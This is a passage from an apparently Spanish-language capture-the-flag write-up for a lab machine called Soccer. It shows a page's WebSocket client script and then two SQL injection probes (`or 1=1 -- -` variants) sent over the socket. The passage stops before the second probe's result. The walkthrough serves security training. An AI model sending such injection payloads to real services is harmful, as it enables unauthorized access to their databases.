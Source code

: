 ## SQLI
Leyendo un poco el código, vemos que se conecta a través de un **websocket** por el puerto **9091**.
```javascript
    <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
```
Probando con:
```javascript
ws.send(JSON.stringify({
    "id": `" or 1=1 -- -`
}))
```
Devuelve `Ticket Doesn't Exist`
Pero si ahora probamos con:
```javascript
ws.send(JSON.stringify({
    "id": `"" or 1=1 -- -`
}))
```
